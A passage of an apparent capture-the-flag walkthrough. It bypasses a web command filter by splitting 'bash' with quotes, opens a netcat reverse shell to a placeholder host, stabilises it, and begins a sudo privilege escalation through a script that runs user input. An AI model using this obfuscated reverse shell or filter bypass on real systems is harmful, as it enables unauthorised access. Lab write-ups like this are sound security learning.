 <img width="1853" height="1007" alt="Screenshot From 2025-09-01 21-04-35" src="https://github.com/user-attachments/assets/c52e0db3-d663-48ae-858d-bd783d9aad51" />

Let’s see if we can trigger that.

Typing `ls` we get the red gif but typing `whoami` we get the boy. Let’s see what else we can do. Going back to the hint we see that since some strings are locked and prevented from running we can run string obfuscation to bypass command filters.

This is fancy talk for: it’s a way to sneak blocked commands past a filter by splitting them up. So we can run a listener and then a reverse shell split up.

```bash
nc -lvnp 4444
```

```bash
ba''sh -c 'ba''sh -i >& /dev/tcp/MACHINE_IP/4444 0>&1'
```

Now that we are in we can do this to stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL ^Z
stty raw -echo && fg
export TERM=xterm
```

After looking around we see that we have 3 users: `anurodh`, `apaar`, `aurick`.
But we can only get into `apaar` and even then we can’t read the file in there. So we run `sudo -l`.

```bash
www-data@ip-10-201-23-34:/home/apaar$ sudo -l
Matching Defaults entries for www-data on ip-10-201-23-34:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User www-data may run the following commands on ip-10-201-23-34:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

---

## Privilege Escalation: www-data → apaar

We can run `helpline.sh`. First we see what the file is all about and we see:

```abap
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```
